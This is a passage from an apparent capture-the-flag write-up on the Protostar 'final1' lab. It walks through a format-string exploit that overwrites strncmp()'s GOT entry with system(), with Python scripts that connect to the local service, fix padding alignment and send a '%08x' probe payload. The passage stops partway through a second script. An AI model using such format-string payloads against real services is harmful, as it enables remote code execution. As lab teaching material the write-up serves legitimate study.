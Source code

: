 ![strncmp-got](public/image/protostar-final/strncmp-got.png)

Now, we just need to overwrite the address of `system()` into **strncmp()'s GOT entry**.

![system-address](public/image/protostar-final/system-address.png)

However, there's a misalignment issue due to **IP and port length**.

![alignment-problem](public/image/protostar-final/alignment-problem.png)

The **A's** aren't aligned, and they might shift depending on the hostname length. To fix this, we adjust the padding so there's no offset.

- Shortest hostname: **9 (x.x.x.x:x)**
- Longest hostname: **21 (xxx.xxx.xxx.xxx:xxxxx)**
- Best padding: **24 (aligned to 32-bit)**

```shell
import socket

HOST = '127.0.0.1'
PORT = 2994
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

def read_until(check):
        buf = ''
        while check not in buf:
                buf += s.recv(1)
        return buf

# handle misalignment
host, port = s.getsockname()
hostname = host + ":" + str(port)

pad = 'A' * (24 - len(hostname))
username = pad + 'BBBB' + '%08x ' * 20
login = 'CCCC'

print read_until('[final1] $ ')
s.send('username ' + username + '\n')
raw_input('[Enter] to continue...')
print read_until('[final1] $ ')
s.send('login ' + login + '\n')
print read_until('[final1] $ ')
```

![fix-alignment](public/image/protostar-final/fix-alignment.png)

Great! The alignment issue is fixed. Now, we determine how many characters have been printed so we can precisely overwrite `strncmp()`.

```shell
import socket, struct

HOST = '127.0.0.1'
PORT = 2994
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

def read_until(check):
        buf = ''
        while check not in buf:
                buf += s.recv(1)
        return buf

```